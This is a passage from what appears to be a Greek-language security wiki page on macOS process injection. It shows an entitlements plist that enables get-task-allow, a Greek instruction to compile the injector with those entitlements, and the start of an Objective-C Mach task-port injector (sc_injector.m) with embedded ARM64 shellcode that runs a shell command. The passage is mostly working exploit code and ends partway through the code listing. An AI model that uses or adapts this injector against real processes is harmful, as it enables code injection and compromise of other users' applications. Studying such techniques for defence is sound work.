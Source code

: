 {% tab title="entitlements.plist" %}
```xml
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>com.apple.security.get-task-allow</key>
<true/>
</dict>
</plist>
```
{% endtab %}
{% endtabs %}

**Συγκεντρώστε** το προηγούμενο πρόγραμμα και προσθέστε τα **entitlements** για να μπορείτε να εισάγετε κώδικα με τον ίδιο χρήστη (αν όχι, θα χρειαστεί να χρησιμοποιήσετε **sudo**).

<details>

<summary>sc_injector.m</summary>
```objectivec
// gcc -framework Foundation -framework Appkit sc_injector.m -o sc_injector
// Based on https://gist.github.com/knightsc/45edfc4903a9d2fa9f5905f60b02ce5a?permalink_comment_id=2981669
// and on https://newosxbook.com/src.jl?tree=listings&file=inject.c


#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <mach/mach_vm.h>
#include <sys/sysctl.h>


#ifdef __arm64__

kern_return_t mach_vm_allocate
(
vm_map_t target,
mach_vm_address_t *address,
mach_vm_size_t size,
int flags
);

kern_return_t mach_vm_write
(
vm_map_t target_task,
mach_vm_address_t address,
vm_offset_t data,
mach_msg_type_number_t dataCnt
);


#else
#include <mach/mach_vm.h>
#endif


#define STACK_SIZE 65536
#define CODE_SIZE 128

// ARM64 shellcode that executes touch /tmp/lalala
char injectedCode[] = "\xff\x03\x01\xd1\xe1\x03\x00\x91\x60\x01\x00\x10\x20\x00\x00\xf9\x60\x01\x00\x10\x20\x04\x00\xf9\x40\x01\x00\x10\x20\x08\x00\xf9\x3f\x0c\x00\xf9\x80\x00\x00\x10\xe2\x03\x1f\xaa\x70\x07\x80\xd2\x01\x00\x00\xd4\x2f\x62\x69\x6e\x2f\x73\x68\x00\x2d\x63\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x6c\x61\x6c\x61\x6c\x61\x00";
```